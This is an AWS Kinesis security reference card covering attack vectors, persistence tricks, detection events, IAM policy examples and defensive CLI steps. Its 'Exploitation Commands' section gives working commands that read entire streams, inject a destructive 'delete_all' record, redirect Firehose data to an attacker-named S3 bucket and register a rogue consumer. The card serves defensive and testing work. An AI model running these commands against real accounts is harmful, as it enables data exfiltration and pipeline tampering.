

#  AWS Kinesis Security



> **Category**: STREAMING

Kinesis is a real-time data streaming service for collecting, processing, and analyzing data streams. Attackers exploit Kinesis to intercept real-time data, inject malicious records, and exfiltrate streaming data containing logs, events, and business transactions.

## Quick Stats

| Data Interception Risk | Default Retention | Per Shard Write | Data Access |
| --- | --- | --- | --- |
| **HIGH** | **24h** | **1MB/s** | **Real-time** |

## Service Overview

### Data Streams & Shards

Kinesis Data Streams ingest real-time data via shards. Each shard handles 1MB/s write and 2MB/s read. Data is retained for 24 hours by default (up to 365 days). Records are base64-encoded and ordered by sequence number.

> Attack note: With GetRecords permission, an attacker can read ALL data in the retention window - SIEM events, transactions, PII, and application secrets in real-time.

### Firehose & Delivery

Kinesis Data Firehose delivers streaming data to S3, Redshift, Elasticsearch, Splunk, and HTTP endpoints. Attackers who modify the delivery destination can redirect entire data pipelines to attacker infrastructure.

> Attack note: Changing a Firehose destination is a single API call. All future data silently flows to the attacker while the original destination stops receiving data.

## Security Risk Assessment

`████████░░` **7.5/10** (HIGH)

Kinesis streams contain real-time data including logs, transactions, and events. Attackers can read historical data within retention period, inject malicious records, and redirect streams to attacker-controlled destinations.

## ⚔️ Attack Vectors

### Stream Exploitation

- Stream data interception via GetRecords
- Record injection with PutRecord
- Firehose destination redirection
- Consumer hijacking via enhanced fan-out

### Cross-Service Attacks

- Video stream interception (Kinesis Video)
- Analytics application manipulation
- Cross-account stream sharing abuse
- Lambda consumer code injection

## ⚠️ Misconfigurations

### Encryption & Access

- No server-side encryption on streams
- Overly permissive stream IAM policies
- Long retention periods (365 days of data)
- Missing consumer authorization

### Delivery & Monitoring

- Firehose to public S3 bucket
- Unprotected video streams
- No monitoring on UpdateDestination calls
- Shared producer/consumer IAM roles

## 🔍 Enumeration

**List Data Streams**
```bash
aws kinesis list-streams
```

**Describe Stream**
```bash
aws kinesis describe-stream --stream-name my-stream
```

**List Firehose Streams**
```bash
aws firehose list-delivery-streams
```

**List Consumers**
```bash
aws kinesis list-stream-consumers --stream-arn <arn>
```

## 📈 Privilege Escalation

### Data-Based Escalation

- Read credentials from application log streams
- Intercept API keys in event streams
- Extract tokens from authentication streams
- Harvest secrets from config change events

### Infrastructure Exploitation

- Modify Firehose IAM role for broader access
- Register consumer with elevated permissions
- Abuse Kinesis Analytics IAM role
- Pivot through Lambda consumer roles

> **Key insight:** Kinesis streams often carry SIEM and security event data. An attacker reading the security stream knows exactly what defenders see, enabling perfect evasion timing.

## 🔗 Persistence

### Stream-Based Persistence

- Register rogue enhanced fan-out consumer
- Redirect Firehose to attacker S3/HTTP endpoint
- Inject beacon records into streams
- Create shadow stream mirroring data

### Consumer Persistence

- Lambda consumer with backdoor code
- Analytics application exfiltrating data
- Kinesis Agent forwarding to attacker
- Cross-account stream subscription

## 🛡️ Detection

### CloudTrail Events

- GetRecords (bulk read operations)
- UpdateDestination (Firehose redirect)
- RegisterStreamConsumer (new consumer)
- PutRecord/PutRecords (data injection)

### Behavioral Indicators

- New consumers on sensitive streams
- Unusual GetShardIterator with TRIM_HORIZON
- Firehose destination changes
- Spike in GetRecords from unknown principals

> **Tool reference:** Pacu module kinesis__enum enumerates streams and consumers. CloudFox kinesis maps stream permissions to IAM roles.

## Exploitation Commands

**Read Stream from Beginning**
```bash
aws kinesis get-shard-iterator --stream-name target-stream --shard-id shardId-000000000000 --shard-iterator-type TRIM_HORIZON
```

**Inject Malicious Record**
```bash
aws kinesis put-record --stream-name app-events --partition-key inject --data 'eyJhY3Rpb24iOiJkZWxldGVfYWxsIn0='
```

**Redirect Firehose to Attacker S3**
```bash
aws firehose update-destination --delivery-stream-name logs --destination-id dest-1 --s3-destination-update BucketARN=arn:aws:s3:::attacker-bucket,RoleARN=arn:aws:iam::123:role/firehose
```

**Register Rogue Consumer**
```bash
aws kinesis register-stream-consumer --stream-arn arn:aws:kinesis:us-east-1:123:stream/sensitive --consumer-name attacker-consumer
```

**Describe Firehose (Find Destination)**
```bash
aws firehose describe-delivery-stream --delivery-stream-name my-firehose --query 'DeliveryStreamDescription.Destinations'
```

**List Video Streams**
```bash
aws kinesisvideo list-streams --query 'StreamInfoList[*].{Name:StreamName,ARN:StreamARN}'
```

## Policy Examples

### ❌ Dangerous - Full Kinesis Access

```json
{
  "Effect": "Allow",
  "Action": "kinesis:*",
  "Resource": "*"
}
```

*Full Kinesis access enables data interception, injection, and stream manipulation*

### ❌ Dangerous - Firehose Destination Control

```json
{
  "Effect": "Allow",
  "Action": [
    "firehose:UpdateDestination",
    "firehose:DescribeDeliveryStream"
  ],
  "Resource": "*"
}
// Attacker can redirect ALL Firehose
// delivery streams to their own S3/HTTP
```

*UpdateDestination permission lets attacker redirect entire data pipelines silently*

### ✅ Secure - Producer Only

```json
{
  "Effect": "Allow",
  "Action": [
    "kinesis:PutRecord",
    "kinesis:PutRecords"
  ],
  "Resource": "arn:aws:kinesis:*:*:stream/app-events"
}
```

*Limited to writing records to a specific stream - cannot read stream data*

### ✅ Secure - Consumer with KMS

```json
{
  "Effect": "Allow",
  "Action": [
    "kinesis:GetRecords",
    "kinesis:GetShardIterator",
    "kinesis:DescribeStream"
  ],
  "Resource": "arn:aws:kinesis:*:*:stream/app-events"
},
{
  "Effect": "Allow",
  "Action": "kms:Decrypt",
  "Resource": "arn:aws:kms:*:*:key/stream-key-id"
}
```

*Read-only access to specific stream with KMS decryption for encrypted data*

## Defense Recommendations

### 🔐 Enable Server-Side Encryption

Encrypt stream data at rest with KMS to control access via key policies.

```bash
aws kinesis start-stream-encryption \\\n  --stream-name my-stream \\\n  --encryption-type KMS \\\n  --key-id alias/kinesis-key
```

### 📡 Use Enhanced Fan-Out

Registered consumers provide better access control and isolation than shared throughput.

```bash
aws kinesis register-stream-consumer \\\n  --stream-arn <arn> \\\n  --consumer-name authorized-app
```

### ⏰ Minimize Retention Period

Reduce retention to limit historical data exposure window (default 24h, max 365 days).

```bash
aws kinesis decrease-stream-retention-period \\\n  --stream-name sensitive-data \\\n  --retention-period-hours 24
```

### 📊 Monitor Consumer Activity

Alert on new consumers, unusual read patterns, or iterator type changes (especially TRIM_HORIZON).

```bash
CloudWatch Alarm: RegisterStreamConsumer\nAlert on GetShardIterator TRIM_HORIZON\nfrom unknown principals
```

### 🔑 Separate Producer/Consumer Roles

Use different IAM roles for writing and reading stream data to enforce least privilege.

```bash
Producer: kinesis:PutRecord only\nConsumer: kinesis:GetRecords only\nNEVER combine both
```

### 🛡️ Firehose Destination Controls

Restrict UpdateDestination permission via SCP and monitor all destination changes.

```bash
SCP: Deny firehose:UpdateDestination\n  except from approved admin roles
```

---

*AWS Kinesis Security Card*

*Always obtain proper authorization before testing*
